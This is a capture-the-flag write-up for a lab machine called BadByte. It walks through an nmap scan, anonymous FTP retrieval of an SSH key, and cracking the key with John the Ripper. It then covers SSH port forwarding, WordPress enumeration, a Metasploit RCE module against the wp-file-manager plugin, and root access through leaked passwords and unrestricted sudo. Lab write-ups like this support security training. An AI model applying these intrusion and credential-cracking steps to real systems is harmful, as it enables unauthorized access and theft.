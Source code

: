 # BadByte Write-up - Easy

## Nmap 

```
nmap -sC -sV <ip> -p-
```

Open ports:
- 22: ssh. OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
- 30024: tcp. vsftpd 3.0.3. Anonymous login allowed


## FTP and John the Ripper

```
ftp <ip> 30024
get note.txt
get id_rsa
```
note.txt informs us about the key in the same directory and gives us the username **errorcauser**, so I downloaded it and used ssh2john with John the Ripper to attempt to crack the private key.

```
ssh2john id_rsa > johnkey
john --wordlist=rockyou.txt johnkey
```

which quickly cracked the credentials: **errorcauser : cupcake**.


## SSH

```
chmod 600 id_rsa
ssh errorcauser@<ip> -i id_rsa -D 1337
```

I now have an initial shell on the machine. Reading note.txt in the current directory gives some interesting information:
```
Hi Error!
I've set up a webserver locally so no one outside could access it.
It is for testing purposes only.  There are still a few things I need to do like setting up a custom theme.
You can check it out, you already know what to do.
-Cth
:)
```
This may indicate that the current theme is vulnerable.


## Wordpress Enumeration

After using dynamic port forwarding to bypass the firewall, I evaluated the web server running on port 80 using nmap with http-wordpress-enum and wpscan.

```
proxychains nmap -sT 127.0.0.1 --script=http-wordpress-enum
wpscan --url http://127.0.0.1:<port> -e ap,at -vv
```

note.txt indicated that the theme might be vulnerable, and running searchsploit on the installed duplicator plugin found by nmap confirmed an arbitrary file read exploit.

The more interesting vulnerability, though, is in the wp-file-manager plugin with version 6.0.

```
msfconsole
use exploit/multi/http/wp_file_manager_rce 
<set options>
run
```
This gave me a meterpreter session, where I could find the flag in cth's home directory.


## Privilege Escalation to root

When browsing the file system, I found an interesting file /var/log/bash.log. This contained the password **G00dP@$sw0rd2020** so I tried to ssh to the cth user with this password.

```
ssh cth@<ip> -i id_rsa -D 1337
```

However, it said the password was incorrect. After some head scratching, I tried to brute force ssh with some similar passwords, and eventually got in with **G00dP@$sw0rd2021**.

Evaluating the sudo permissions to find a privilege escalation vector:
```
sudo -l
User cth may run the following commands on badbyte:
    (ALL : ALL) ALL
```

Since I can run all commands with sudo, I simply ran sudo bash to get root and find the final flag.
```
sudo bash
cat /root/root.txt
```